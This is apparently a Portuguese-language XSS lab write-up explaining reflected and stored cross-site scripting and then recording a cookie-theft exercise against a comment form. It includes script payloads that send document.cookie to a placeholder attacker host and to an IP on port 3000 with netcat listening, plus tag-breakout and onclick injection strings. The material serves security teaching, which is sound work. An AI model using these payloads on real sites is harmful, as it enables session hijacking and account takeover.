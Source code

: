 # _**Contexto de páginas web**_
As páginas da web são compostas por 3 componentes comuns:
* HTML - é a sintaxe usada para definir o conteúdo e a estrutura de uma página web.
* CSS - é a linguagem usada para projetar e estilizar o conteúdo da página web.
* Javascript - é a linguagem usada para fornecer interatividade e animação a uma página web.

A maior parte do código Javascript é encontrada dentro de: <script></script>  
Estas tags em uma página web  

O código JavaScript é adicionado diretamente entre essas tags ou é chamado em um arquivo usando o atributo src dentro da tag de script de abertura, por exemplo: <script src=’location-to-file’></script>  
Em geral, o JavaScript dentro das tags de script é sempre executado quando a página é carregada  

Um dos outros locais onde o JavaScript pode ser adicionado são os atributos dentro de outras tags HTML  
Por exemplo:  <a href=’/link’ onclick=’code-here’>  
Esta tag HTML abre um link, mas o atributo onclick executa o código JavaScript quando o texto especificado pela tag HTML é clicado  
A execução do JavaScript no atributo depende do atributo, por exemplo, onload só executará JavaScript quando o elemento for carregado  

Muitos sites exigem a participação do usuário  
Isso inclui tudo, desde adicionar posts a um formulário até adicionar um valor em uma transferência bancária  
Vimos que sites exigem Javascript para funcionar corretamente  
Um usuário mal-intencionado poderia facilmente injetar JavaScript em uma página e executar ações maliciosas  
Esse tipo de ataque é chamado de XSS; _Cross Site Scripting_  

**Reflected XSS**  
XSS refletido ocorre quando JavaScript arbitrário é refletido de um servidor (e não é permanente)  
Isso ocorre em cenários como páginas de erro e links onde o payload é passado como uma solicitação e também incluído na resposta  
O caso mais comum é quando um invasor envia uma URL contendo um payload malicioso para a vítima  
A vítima clica nesse URL e o payload é executado (exploraremos exatamente o que podemos fazer com um payload Javascript)  

**Stored XSS**  
XSS armazenado ocorre quando JavaScript arbitrário é armazenado em um banco de dados e esse JavaScript é recuperado e exibido ao usuário  
Isso tende a ser mais perigoso do que XSS refletido, pois o payload é automaticamente passado (e até executado) ao usuário  

O JavaScript é muito poderoso e um invasor pode fazer muitas coisas com ele:
* **Roubar cookies de sessão:** Isso permitiria que um invasor acessasse a conta de um usuário
* **Escrever Keyloggers:** Isso permitiria que um invasor extraísse informações confidenciais de um usuário, como detalhes de cartão de crédito
* **Spam em geral:** Um invasor pode ser apenas um incômodo e arruinar a experiência do usuário com um site, manipulando vários elementos da página e muito mais

Executar esse payload sozinho não seria benéfico para um invasor  
Ele conseguiu acessar o cookie, mas como poderia recuperá-lo?  
Um método comum é redirecionar um usuário para um domínio que inclua o cookie como parâmetro  
Isso é feito usando: <script>window.location = ‘attacker-web-site.com/page?param=’ + document.cookie </script>  

Aqui, _window.location_ redireciona o usuário para o site controlado pelo invasor e passa o cookie como parâmetro  
O invasor pode então acessar o log do servidor, recuperar esse cookie e efetuar login como o usuário  
Esta não é a única maneira de recuperar o cookie:
* Faça uma solicitação HTTP XML para um domínio controlado por um invasor: Isso é mais furtivo, pois você não precisa redirecionar o usuário para uma página diferente.
* Torne o cookie visível para um invasor: Se você conseguir obter XSS em algum tipo de fórum/mensagem, poderá recriar a solicitação usada para adicionar dados a essas páginas

Assim que um invasor visitar essas páginas, ele poderá simplesmente visualizar o cookie  

***

**Requisições**  
Como mencionado acima, extrair um cookie usando uma solicitação é bastante comum  
Essas solicitações podem ser GET ou POST e geralmente são feitas usando AJAX (Javascript Assíncrono)  
Isso funciona bem porque o AJAX pode interagir com um servidor em segundo plano (não há necessidade de atualizar ou recarregar uma página)  

Ao injetar esse payload em uma página, não conseguiremos separá-los como mostrado acima  
Então, colocaríamos tudo em uma linha, por isso o ponto e vírgula no final de cada linha é importante  
Ponto e vírgula é usado para indicar que uma solicitação foi concluída  

Antes de fazer uma chamada AJAX, é importante saber o formato da solicitação  
Você pode ver exatamente o que está envolvido em uma solicitação usando o Burp  
Como alternativa, você pode abrir a ferramenta de desenvolvimento e manter a aba de rede aberta para executar a solicitação  

***

**Encontrando XSS**  
Seu payload pode ser adicionado a diferentes aspectos de uma página  
Um aspecto comum é entre as tags HTML  
Por exemplo, imagine que um nome de usuário seja adicionado dentro das tags de parágrafo, como: <p> username </p>  

Enquanto digitar <script></script> pode funcionar  
Queremos fechar as tags de parágrafo. Poderíamos usar o payload: </p><script>alert(document.cookie);</script><p>hi  
Quando isso for adicionado à página, o HTML ficará assim: <p></p><script>alert(document.cookie);</script><p>hi</p>  

Insira links e a página os renderizará desta forma: <a href=’link’></a>  
Para garantir que nosso JavaScript seja executado corretamente, precisamos adicionar um atributo, mas adicionar um payload imediatamente significaria que ele estaria entre aspas simples, então não seria executado:  <a href=’link + payload’></a>  

Então, o payload correto ficaria assim: link‘ onclick=’alert(1);  
Que é então inserido da seguinte forma: <a href=’link‘ onclick=’alert(1);’></a>  

# _**Execução**_  
Fazendo login no site com o endereço IP, observe que não existe filtro para os comentários  
Com a ferramenta netcat escutando na porta 80 (HTTP) e baseando-se no script abaixo, monte-se um similar para buscar o cookie de administrador  

<script>window.location = ‘attacker-web-site.com/page?param=’ + document.cookie </script>  

<script>window.location = ‘http://[ip_address]:3000/?=’ + document.cookie </script>  

![](xss_script_return.jpg)

